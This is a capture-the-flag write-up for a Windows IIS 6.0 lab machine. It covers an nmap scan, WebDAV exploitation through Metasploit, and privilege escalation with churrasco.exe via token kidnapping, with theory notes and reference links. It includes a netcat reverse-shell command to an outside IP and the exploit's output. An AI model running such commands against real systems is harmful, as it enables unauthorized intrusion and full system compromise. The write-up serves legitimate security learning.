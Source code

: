 Box: Windows
Level: Easy
### Index
1. Initial Access using iis_webdav_scstoragepathfromurl - msfconsole 
2. Failed attempt of [SeImpersonate Privilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)
3. Failed attempt of multiple MS Missing Patches exploits
4. Token Kidnapping Patch from Microsoft
5. Privilege Escalation using churrasco.exe 

Nmap reveals the following result
```
$ nmap -T4 --min-rate=1000 -p- -sC -sV -Pn 10.10.10.14
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Tue, 06 Aug 2024 15:55:20 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Trying the iis_webdav_scstoragepathfromurl from msfconsole gets the "nt authority\network service" shell but no access to user flag.
```
Just setup the RHOST and LHOST and run the exploit. 
```

winPEAS.bat reveals the following results. 
```
PRIVILEGES INFORMATION                
----------------------                                                                                                                                  Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
**SeImpersonatePrivilege        Impersonate a client after authentication Enabled**
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

Failed attempt of [SeImpersonate Privilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/) at this stage. But there are couple of well-known Windows Privilege Escalation Technique that we can cover for this box. Each one is explain with the reference link below.

Following are the couple of links I would highly advice myself to read again and again

1. [Abusing Token Privileges For Windows Local Privilege Escalation](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
2. [Rotten Potato – Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) 
3. [Hot Potato – Windows Privilege Escalation](https://foxglovesecurity.com/2016/01/16/hot-potato/)
4. [Privilege Escalation (Windows) – churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)
5. [Privilege Escalation (Windows) – JuicyPotato.exe](https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)

Churrasco.exe was ran with the following command when the netcat listener was on.
```
C:\tmp>churrasco.exe -d "C:\tmp\nc.exe -e cmd.exe 10.10.16.5 443"
churrasco.exe -d "C:\tmp\nc.exe -e cmd.exe 10.10.16.5 443"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 672 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

The reverse shell was captured with elevated privileges.

For this box, we used Churrasco.exe exploit. The Churrasco.exe exploit take advantage of 'Token Kidnapping Revenge' attack. Here are few of the background theory I have learned.

1. **Impersonation**: It is an ability of a thread to execute using a different security information than the process that owns the thread. Threads Impersonates in order to run the code under different user account, all ACL checks are done against the impersonated users. Impersonation can only be performed by processes with the 'SeImpersonatePrivilege'  aka "Impersonate a client after authentication" privilege. When a thread impersonates, it has an associated impersonation token.
   
2. **Token:** An access token is an object that describes the security context of a process or thread. It includes the identity and privileges of the user account associated with the process or thread. They can be primary or Impersonation tokens. Primary tokens are those that are assigned to processes. Impersonation tokens are those that can be get when impersonation occurs. There are four Impersonation levels. 'SecurityAnonymous', 'SecurityIdentity', 'SecurityImpersonation' and 'SecurityDelegation'. Impersonation takes place mostly during Inter Process Communication (IPC) using Local Procedure Call (LPC).

In the past, Windows Services ran as a Local SYSTEM account. Compromise of service == Full System Compromise. Than Microsoft Introduce NETWORK SERVICES and LOCAL SERVICES account. Hence, Compromise of service != Full System Compromise.


> [!NOTE] Token Kidnapping Patch from Microsoft
>Some Windows services that are impersonate privileged account are protected, they are create with a "special" permission. For Example: Service runs under the NETWORK SERVICE account CAN NOT access the protected service running under the same NETWORK SERVICE account. This protection was introduce as a patch from Microsoft. Before this patch, it was possible to elevate privileges by getting privilege impersonation token from another process running under the same NETWORK SERVICE account.

The following two resources covers the in-depth details.

[Research Paper on Token Kidnapping](https://home.ubalt.edu/abento/453/winsecurity/TokenKidnappingRevenge.pdf)

[Defcon - Token Kidnapping](https://github.com/Re4son/Churrasco/blob/master/DEFCON-18-Cerrudo-Token-Kidnapping-Revenge.pdf)